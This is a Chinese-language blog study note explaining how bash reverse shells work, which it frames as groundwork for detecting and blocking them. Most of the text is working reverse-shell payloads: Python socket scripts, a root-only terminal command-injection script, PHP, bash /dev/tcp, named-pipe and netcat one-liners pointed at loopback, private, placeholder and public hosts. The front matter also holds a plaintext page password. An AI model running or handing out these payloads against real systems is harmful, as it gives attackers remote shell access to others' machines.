 ```yaml
---
title: 深入挖掘bash反弹shell背后的密码
url: 761.html
id: 761
password: a3k57NZ2HCZLYu8NuS4G
categories:
  - 学习记录
date: 2021-12-10 16:16:34
tags:
  - ctf
  - php
  - web
  - binary
---
```


## 前言

接触过安全的人都知道怎么反弹shell，而且反弹shell的形式多样，方法众多。如此显而易见的东西，真的有必要写篇文章再来详细来解释一下吗？

那好，先来看几个问题吧：

1. bash运行`exec 0</dev/tcp/tcp/127.0.0.1/2222 1>&0 2>&0` 可以成功反弹shell吗？
2. bash运行`exec bash 0</dev/tcp/tcp/127.0.0.1/2222 1>&0 2>&0` 可以成功反弹shell吗？跟1的区别是什么？
3. bash运行`0</dev/tcp/39.107.104.226/2222 1>&0 2>&0` 可以成功反弹shell吗？为什么？
4. php执行 `system("/bin/bash -i >& /dev/tcp/127.0.0.1/2222 0>&1")` 一定可以反弹shell吗？

如果以上问题无法正确的回答出来，那我觉得了解细节还是非常有必要的，本文主要来分享我在学习和思考反弹shell的检测和拦截过程方法中遇到的问题和这些问题之后背后隐藏的细节。本文核心只关注bash的反弹shell，不关注脚本和第三方程序。

<!-- more -->

## 反弹shell综述

反弹shell从本质上来讲只有一类，那就是**劫持命令的输入和输出**。从劫持的对象不同和劫持方法的不同，大概可以将目前见到的反弹shell可以进行如下分类。
(下图是我本人一个分类，非权威，如果有不妥或者错误，请和我交流指正。)

![](https://pic.wonderkun.cc//uploads/note/202110091114665.png)

这样看起来还是有点抽象，我们依次举一些例子吧：

### 直接劫持子程序的输入输出(体验不好)

```python
#coding:utf-8
import subprocess
import socket
import shlex

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",2020))

while True:
    cmd = s.recv(1024).decode().strip()
    print(cmd)
    cmd = shlex.split(cmd)

    process = subprocess.Popen(cmd, shell=True, stdin=subprocess.PIPE, stdout=subprocess.PIPE,bufsize=0)
    out = process.communicate()
    # print(out)
    s.sendall(out[0])
```
其实重定向，管道符这些功能都是壳程序提供给我们的，这个反弹shell没有用到壳程序，所以没有 |、&、> 供我们用，体验很差。

### 劫持已有壳程序的输入输出

```bash
exec 0</dev/tcp/tcp/127.0.0.1/2222 1>&0 2>&0
```

就这么简单。
当然还有复杂的，但是需要root权限，功能还不太完善，我先给个代码示例吧。

```python
import fcntl, sys, termios
import os
import socket as sk
import threading
import time

def getBashPid():
    r = os.popen("pidof bash")
    pids = r.read().split()
    assert(len(pids) > 0) 
    return pids[0]

# tty_path = sys.argv[1]
pid = getBashPid()
tty_path = "/proc/{}/fd/0".format(pid)
s=sk.socket(sk.AF_INET,sk.SOCK_STREAM)
s.connect(("127.0.0.1",2020))
# os.dup2(s.fileno(),1)
tty_fd = open(tty_path, 'wb')
selfPid = os.getpid()

print("[*] The pid of the process is {}.".format(pid))

while True:
    a = s.recv(1024)
    if a:
    # a = b"\n" + a
        a = a.decode("utf-8")
        a = a.strip("\n") + " > /tmp/log \n"  # https://man7.org/linux/man-pages/man4/tty_ioctl.4.html 
        # 肯定有办法劫持输出，这个样觉得是不太合理的
        print(a)
        print(tty_path)
        # for line in ["ls -al\n"]:
        for byte in a:
        # for i in a:
        # byte = 
            fcntl.ioctl(tty_fd, termios.TIOCSTI,byte)
        
        time.sleep(1)
        with open("/tmp/log",'rb') as fileH:
            content = fileH.read()
            s.sendall(content)
    else:
        time.sleep(0.1)
tty_fd.close()
```

### 自己就是壳程序，劫持自己的输入和输出

其实这个想讲的是自己实现一个壳程序，然后把自己的输入输出都重定向到socket。实现一个简单壳程序其实没那么复杂，大概的思路是接收到一个命令之后，执行如下步骤：

1. fork
2. 在子程序中处理重定向和管道的问题
3. execve传过来的命令

但是想把这个壳程序写的好用，那就很难了。由于代码比较长，我就不贴了。感兴趣的google一下，有个帖子教写壳程序讲的很详细。

### 通过文件描述符绑定的方式劫持

这个估计是最常见的了，就简单说几个例子吧：
1. bash 

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
2. php 

```php
'$sock=fsockopen("127.0.0.1",2020);exec("/bin/sh -i <&3 >&3 2>&3");'
# 不一定是3,如果是webserver的话，一般是4或者更大。 
```
3. python

```python
#coding:utf-8 

import io
import subprocess
import os as so
import socket
import threading

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",2020))
process = subprocess.Popen(['/bin/bash'], shell=True, stdin=s, stdout=s,stderr=s,bufsize=0)
```

### 使用匿名/命令管道劫持

1. bash

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

nc 39.107.104.226 2333 | /bin/bash | nc 39.107.104.226 2334 
```
2. python

```python
import subprocess
import os as so
import socket
import threading

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",2020))

process = subprocess.Popen(['/bin/bash'], shell=True, stdin=subprocess.PIPE, stdout=subprocess.PIPE,bufsize=0)

# so.dup2(s.fileno(),process.stdout.fileno())

def copy(socket,process):
    while True:
        if process.stdout.readable():
            data = process.stdout.read(1)
        # print(dir(process.stdout))
        # if data:
            socket.send(data)
copyWork = threading.Thread(target=copy,args=(s,process))
copyWork.setDaemon(True)
copyWork.start()

while True:
    data = s.recv(1024)
    process.stdin.write(data)
```

### 使用临时文件/内存文件进行劫持

```bash
mknod /tmp/backpipe p && /bin/sh 0</tmp/backpipe | nc attackerip listenport 1>/tmp/backpipe
```

## 


## 简单的原理了解

```bash
exec /bin/sh 0</dev/tcp/127.0.0.1/2222 1>&0 2>&0
/bin/bash -i >& /dev/tcp/127.0.0.1/2222 0>&1
exec 0</dev/tcp/127.0.0.1/2222 1>&0 2>&0

/bin/bash -i > /dev/tcp/10.10.10.11/443 0<& 2>&1
exec 5<>/dev/tcp/10.10.10.11/443;cat <&5 | while read line; do $line 2>&5 >&5; done
0<&196;exec 196<>/dev/tcp/10.10.10.11/443; sh <&196 >&196 2>&196

0</dev/tcp/39.107.104.226/2222 1>&0 2>&0 # 为啥不行
```

## 参考链接

1. https://xz.aliyun.com/t/2548
2. https://xz.aliyun.com/t/2549

https://brucetg.github.io/2018/05/03/%E5%A4%9A%E7%A7%8D%E5%A7%BF%E5%8A%BF%E5%8F%8D%E5%BC%B9shell/
